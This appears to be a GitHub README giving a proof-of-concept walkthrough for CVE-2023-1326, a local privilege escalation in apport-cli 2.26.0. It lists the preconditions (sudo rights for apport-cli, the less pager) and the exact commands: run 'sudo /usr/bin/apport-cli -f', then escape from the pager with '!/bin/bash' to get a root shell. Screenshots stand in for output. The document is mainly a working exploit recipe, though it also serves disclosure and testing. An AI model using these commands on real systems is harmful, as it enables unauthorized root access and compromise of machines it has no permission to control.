 # CVE-2023-1326

A proof of concept for CVE-2023–1326 in apport-cli 2.26.0

This vulnerability is privilege escalation in apport-cli 2.26.0, similar to CVE-2023–26604, this vulnerability only works if assign in sudoers:

![image](https://github.com/c0d3cr4f73r/CVE-2023-1326/assets/66146701/f052d0f2-6f35-4510-8a7c-b2133fa3c6b2)

A privilege escalation attack was found in apport-cli 2.26.0 and earlier which is similar to CVE-2023-26604. If a system is specially configured to allow unprivileged users to run sudo apport-cli, less is configured as the pager, and the terminal size can be set: a local attacker can escalate privilege.

```
sudo /usr/bin/apport-cli -f
```

![image](https://github.com/c0d3cr4f73r/CVE-2023-1326/assets/66146701/ce8fe682-3be4-4420-87e0-ad1b75126af3)

![image](https://github.com/c0d3cr4f73r/CVE-2023-1326/assets/66146701/db6f803e-b8d7-43b9-93ed-21dc648f08df)

![image](https://github.com/c0d3cr4f73r/CVE-2023-1326/assets/66146701/3dbbc88f-b3f8-4650-8fe3-1050f123bed6)

```
!id
!/bin/bash
```
![image](https://github.com/c0d3cr4f73r/CVE-2023-1326/assets/66146701/efed11c2-af7b-4866-9ccf-bb561da6018d)



